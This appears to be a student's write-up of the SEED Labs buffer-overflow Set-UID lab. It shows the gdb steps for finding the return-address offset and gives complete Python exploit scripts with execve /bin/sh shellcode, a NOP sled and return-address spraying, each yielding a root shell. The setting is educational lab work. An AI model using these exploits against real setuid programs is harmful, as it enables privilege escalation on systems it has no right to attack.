# **Week #5**

## **SEEDs Lab**

https://seedsecuritylabs.org/Labs_20.04/Software/Buffer_Overflow_Setuid/

## Task 1 - Getting Familiar with Shellcode

### Invoking the Shellcode
 
 In this first task we shut off the address randomization so that the addresses of the variables can be the same in each execution of a program, changed shell linked to /bin/sh so that the shell executed allows for Set-UID program attacks and then we compiled and run the `./a32.out` and `./a64.out` programs and saw their output.



We can see that `./a32.out` output and `./a64.out` output are the same (invokes the shell).
<br>

## Task 2 - Understanding the Vulnerable Program

In this task we compiled the program inside the "code" directory using `make` that uses `-fno-stack-protector` and `-z execstack` to turn off the StackGuard and  non-executable stack protections. After that we checked the permissions of the resulting programs to confirm the success of the task.



Files created after executing command `make`

---



Permissions after the execution of `make`
<br>

## Task 3 - Launching Attack on 32-bit Program (Level 1)
### Investigation

In this part of the task we needed to know the distance between the buffer’s starting position and the place where the return-address is stored using a debugging method to find out.

* We first created an empty file called "badfile" using `touch badfile`.
* Then we executed `gdb stack-L1-dbg`.
* Then we set up a break point in the function bof().
* After that we started executing the program with `run`.
* At the breakpoint we used the `next` command to execute a few instructions and stop after de ebp register is modified.
* We got the ebp value using `p $ebp`.
* The buffer's address was discovered using `p &buffer`.  
* Lastly we used `quit` to exit 

  
   
   

* We can see that `$ebp = 0xffffcb38`.
* The `buffer's` address is `0xffffcacc`.

### Launching Attacks
In this part of the task we were challenged to exploit the vulnerability in the target program using a skeleton program called `exploit.py`. This program was incompleted and we needed to change essential values for the code to work.

```phyton
#!/usr/bin/python3
import sys
shellcode= (
"" # ✩ Need to change ✩
).encode(’latin-1’)
# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))
##################################################################
# Put the shellcode somewhere in the payload
start = 0 # ✩ Need to change ✩
content[start:start + len(shellcode)] = shellcode
# Decide the return address value
# and put it somewhere in the payload
ret = 0x00 # ✩ Need to change ✩
offset = 0 # ✩ Need to change ✩
L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder=’little’)
##################################################################
# Write the content to a file
with open(’badfile’, ’wb’) as f:
f.write(content)
```

After looking at the exploit we can see that we need to change the `shellcode`, `start`, `ret` and `offset`.

* For the `shellcode` we used the shellcode for 32 bit shell, because we were using SEED Labs 32bit version.
* For the `start` we changed it to `490` which is 517 (the space for the str string) minus the space of the shellcode which is 27 because each `\x__` occupies 1.
* For the `ret` address we used `0xffffcb38 + start` (which is the ebp address) plus start to it.
* The `offset` is kinda like a middle term in between ebp and the buffer's address so we did $ebp minus buffer's address (`0xffffcb38 - 0xffffcacc = 0x6C`) and it is `108` in decimal, but we wanted the next position so we added 4 making it `offset = 112`.

```phyton
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 490             # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb38 + start      # Change this number 
offset = 112             # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

After the changes were made we executed the `exploit.py` and then the `stack-L1` file.



After the execution of the file we got the root shell as the output.

## Task 4 -  Launching Attack without Knowing Buffer Size (Level 2)

In this task we are asked to do the same attack done in the last task but we are not allowed to derive the buffer size from our investigation so we cannot use that information in the attack. We need to get the vulnerable program to run our shellcode under this constraint.  

So in this task we don't know the ebp value, for that we will execute every initial command of the task 3 but we can't use the command `"p $ebp"` as shown in the last screenshot.






In `exploit.py` file we will do some changes to make this exploit work in this task.

* For the `shellcode` we used the shellcode for 32 bit shell, because we were using SEED Labs 32bit version.
* We put the `shellcode` at the end of badfile.
* For the `ret` address we used `0xffffcacc + 400` because we know that the buffer size is about 100-200 bytes long so we need to jump higher than 200.
* In the last task we had 1 return address but this time we don´t know exactly how long our buffer is so we have to put the return address in many places so at least one of those addresses is actual a return address for that we create a `for` loop and we "spray" the entire buffer with a return address.

```phyton
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
# start = 0             # Change this number 
content[517 - len(shellcode):] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcacc + 500      # Change this number 
# offset = 0             # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address

# Loop to "spray" the buffer with return address
for offset in range(50):
   content[offset*L:offset*4 + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

After the changes were made we executed the `exploit.py` and then the `stack-L1` file.



After the execution of the file we got the root shell as the output.